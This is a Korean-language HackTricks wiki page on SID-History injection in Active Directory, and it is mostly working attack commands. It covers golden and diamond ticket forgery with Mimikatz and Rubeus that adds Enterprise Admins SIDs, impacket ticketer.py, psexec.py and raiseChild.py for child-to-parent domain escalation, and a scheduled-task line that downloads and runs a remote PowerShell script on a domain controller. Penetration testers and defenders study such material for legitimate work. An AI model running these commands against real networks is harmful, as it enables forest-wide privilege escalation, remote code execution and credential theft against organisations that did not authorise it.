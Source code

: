# SID-History Injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SID History Injection Attack

**SID History Injection Attack**의 초점은 **도메인 간 사용자 마이그레이션**을 지원하면서 이전 도메인의 리소스에 대한 지속적인 접근을 보장하는 것입니다. 이는 **사용자의 이전 보안 식별자(SID)를 새 계정의 SID History에 통합함으로써** 이루어집니다. 특히, 이 과정은 부모 도메인에서 고급 권한 그룹(예: Enterprise Admins 또는 Domain Admins)의 SID를 SID History에 추가하여 무단 접근을 부여하도록 조작될 수 있습니다. 이 악용은 부모 도메인 내의 모든 리소스에 대한 접근을 부여합니다.

이 공격을 실행하는 두 가지 방법이 있습니다: **Golden Ticket** 또는 **Diamond Ticket**의 생성입니다.

**"Enterprise Admins"** 그룹의 SID를 찾으려면 먼저 루트 도메인의 SID를 찾아야 합니다. 식별 후, Enterprise Admins 그룹 SID는 루트 도메인의 SID에 `-519`를 추가하여 구성할 수 있습니다. 예를 들어, 루트 도메인 SID가 `S-1-5-21-280534878-1496970234-700767426`인 경우, "Enterprise Admins" 그룹의 결과 SID는 `S-1-5-21-280534878-1496970234-700767426-519`가 됩니다.

**Domain Admins** 그룹도 사용할 수 있으며, 이는 **512**로 끝납니다.

다른 도메인의 그룹(SID, 예: "Domain Admins")의 SID를 찾는 또 다른 방법은 다음과 같습니다:
```powershell
Get-DomainGroup -Identity "Domain Admins" -Domain parent.io -Properties ObjectSid
```
### 골든 티켓 (Mimikatz)와 KRBTGT-AES256

{% code overflow="wrap" %}
```bash
mimikatz.exe "kerberos::golden /user:Administrator /domain:<current_domain> /sid:<current_domain_sid> /sids:<victim_domain_sid_of_group> /aes256:<krbtgt_aes256> /startoffset:-10 /endin:600 /renewmax:10080 /ticket:ticket.kirbi" "exit"

/user is the username to impersonate (could be anything)
/domain is the current domain.
/sid is the current domain SID.
/sids is the SID of the target group to add ourselves to.
/aes256 is the AES256 key of the current domain's krbtgt account.
--> You could also use /krbtgt:<HTML of krbtgt> instead of the "/aes256" option
/startoffset sets the start time of the ticket to 10 mins before the current time.
/endin sets the expiry date for the ticket to 60 mins.
/renewmax sets how long the ticket can be valid for if renewed.

# The previous command will generate a file called ticket.kirbi
# Just loading you can perform a dcsync attack agains the domain
```
{% endcode %}

골든 티켓에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="golden-ticket.md" %}
[golden-ticket.md](golden-ticket.md)
{% endcontent-ref %}

### 다이아몬드 티켓 (Rubeus + KRBTGT-AES256)

{% code overflow="wrap" %}
```powershell
# Use the /sids param
Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512 /sids:S-1-5-21-378720957-2217973887-3501892633-512 /krbkey:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /nowrap

# Or a ptt with a golden ticket
Rubeus.exe golden /rc4:<krbtgt hash> /domain:<child_domain> /sid:<child_domain_sid>  /sids:<parent_domain_sid>-519 /user:Administrator /ptt

# You can use "Administrator" as username or any other string
```
{% endcode %}

다이아몬드 티켓에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="diamond-ticket.md" %}
[diamond-ticket.md](diamond-ticket.md)
{% endcontent-ref %}

{% code overflow="wrap" %}
```bash
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local
.\kirbikator.exe lsa .\CIFS.mcorpdc.moneycorp.local.kirbi
ls \\mcorp-dc.moneycorp.local\c$
```
{% endcode %}

손상된 도메인의 KRBTGT 해시를 사용하여 루트 또는 엔터프라이즈 관리자의 DA로 상승:

{% code overflow="wrap" %}
```bash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-211874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'

Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'

gwmi -class win32_operatingsystem -ComputerName mcorpdc.moneycorp.local

schtasks /create /S mcorp-dc.moneycorp.local /SC Weekely /RU "NT Authority\SYSTEM" /TN "STCheck114" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"

schtasks /Run /S mcorp-dc.moneycorp.local /TN "STCheck114"
```
{% endcode %}

공격으로 획득한 권한을 사용하여 새 도메인에서 예를 들어 DCSync 공격을 실행할 수 있습니다:

{% content-ref url="dcsync.md" %}
[dcsync.md](dcsync.md)
{% endcontent-ref %}

### 리눅스에서

#### [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py)로 수동 실행

{% code overflow="wrap" %}
```bash
# This is for an attack from child to root domain
# Get child domain SID
lookupsid.py <child_domain>/username@10.10.10.10 | grep "Domain SID"
# Get root domain SID
lookupsid.py <child_domain>/username@10.10.10.10 | grep -B20 "Enterprise Admins" | grep "Domain SID"

# Generate golden ticket
ticketer.py -nthash <krbtgt_hash> -domain <child_domain> -domain-sid <child_domain_sid> -extra-sid <root_domain_sid> Administrator

# NOTE THAT THE USERNAME ADMINISTRATOR COULD BE ACTUALLY ANYTHING
# JUST USE THE SAME USERNAME IN THE NEXT STEPS

# Load ticket
export KRB5CCNAME=hacker.ccache

# psexec in domain controller of root
psexec.py <child_domain>/Administrator@dc.root.local -k -no-pass -target-ip 10.10.10.10
```
{% endcode %}

#### Automatic using [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py)

이것은 **자식 도메인에서 부모 도메인으로의 상승을 자동화하는** Impacket 스크립트입니다. 스크립트는 다음이 필요합니다:

* 대상 도메인 컨트롤러
* 자식 도메인의 관리자 사용자에 대한 자격 증명

흐름은 다음과 같습니다:

* 부모 도메인의 Enterprise Admins 그룹에 대한 SID를 얻습니다.
* 자식 도메인의 KRBTGT 계정 해시를 검색합니다.
* Golden Ticket을 생성합니다.
* 부모 도메인에 로그인합니다.
* 부모 도메인의 Administrator 계정에 대한 자격 증명을 검색합니다.
* `target-exec` 스위치가 지정된 경우, Psexec를 통해 부모 도메인의 도메인 컨트롤러에 인증합니다.
```bash
raiseChild.py -target-exec 10.10.10.10 <child_domain>/username
```
## References
* [https://adsecurity.org/?p=1772](https://adsecurity.org/?p=1772)
* [https://www.sentinelone.com/blog/windows-sid-history-injection-exposure-blog/](https://www.sentinelone.com/blog/windows-sid-history-injection-exposure-blog/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
